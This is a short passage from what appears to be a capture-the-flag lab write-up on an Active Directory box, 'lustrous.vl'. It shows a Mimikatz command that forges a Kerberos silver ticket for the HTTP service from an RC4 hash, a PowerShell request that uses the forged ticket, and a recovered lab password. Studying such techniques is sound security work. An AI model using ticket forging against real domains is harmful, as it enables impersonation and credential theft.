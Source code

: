 We used the `klist purge` command to remove all tickets from memory.

---

We used the following command and were able to generate a silver ticket to access the HTTP service as the user `tony.ward`.

```
kerberos::golden /domain:lustrous.vl /sid:S-1-5-21-2355092754-1584501958-1513963426 /target:lusdc.lustrous.vl /service:HTTP /rc4:e67af8b3d78df5a02eb0d57b6cb60717 /user:tony.ward /id:1114 /target:lusdc.lustrous.vl /ptt
```

<img src="attachments/69cb8fd6dea8d8e99b305793fcd59837.png" />

We used PowerShell to access the page again and found the credentials of the user `tony.ward`.

```
Invoke-WebRequest -Uri http://lusdc.lustrous.vl/Internal -UseDefaultCredentials -UseBasicParsing | Select-Object -Expand Content
```

<img src="attachments/f31c7a27dcb3f2f86a69a4fd9c6f3e41.png" />

```
tony.ward : U_cPVQqEI50i1X
```
